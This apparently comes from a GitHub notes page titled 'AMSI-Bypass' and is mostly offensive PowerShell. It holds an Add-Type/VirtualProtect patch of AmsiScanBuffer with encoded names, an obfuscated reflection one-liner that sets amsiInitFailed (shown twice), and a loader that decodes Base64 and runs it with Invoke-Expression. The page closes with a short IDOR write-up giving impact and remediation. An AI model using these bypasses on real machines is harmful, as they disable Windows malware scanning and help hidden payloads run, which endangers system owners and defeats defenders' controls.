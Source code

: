 # AMSI-Bypass
$ZQCUW = @" 
using System;
using System.Runtime.InteropServices; 
public class ZQCUW { 
	[DllImport("kernel32")] 
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 
	[DllImport("kernel32")] 
	public static extern IntPtr LoadLibrary(string name); 
	[DllImport("kernel32")] 
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));
(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})


S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

=============================================================

! Define the path to the text file containing the Base64-encoded PowerShell commands

$encodedFilePath = "path\to\your\encodedfile.txt"

! Read the Base64-encoded content from the text file

$encodedContent = Get-Content -Path $encodedFilePath

! Decode the Base64-encoded content

$decodedBytes = [System.Convert]::FromBase64String($encodedContent)

$decodedContent = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

! Execute the decoded PowerShell commands

Invoke-Expression $decodedContent


=============================================================

Insecure Direct Object Reference (IDOR) via Transaction ID Manipulation
Description: Insecure Direct Object Reference (IDOR) via transaction ID manipulation occurs when an application fails to properly authorize access to transaction data. By altering the transaction ID in the URL or request parameters, an attacker can access other users' transaction data, which should not be visible to them.

Impact: This vulnerability can lead to unauthorized access to sensitive financial information, privacy violations, and potential regulatory non-compliance. Attackers can exploit this to view, modify, or manipulate transaction data of other users, leading to severe data breaches and loss of user trust.

Remediation: Implement strict authorization checks to verify that the requesting user has permission to access the specified transaction. Use indirect references or opaque identifiers for transactions instead of direct IDs. Regularly review and test the application for IDOR vulnerabilities.

Implement strict authorization checks to ensure that the requesting user has permission to access the specified transaction. Use indirect references or opaque identifiers for transaction IDs instead of direct IDs. Secure URL and API endpoints to prevent exposure of sensitive information. Validate and sanitize all input parameters to prevent manipulation. Employ session tokens and access control mechanisms, such as ACLs or RBAC, to manage permissions.

Reference:

OWASP IDOR
One-liner recommendation: "It is recommended to implement strict authorization checks and use indirect references for transaction IDs to prevent IDOR vulnerabilities."

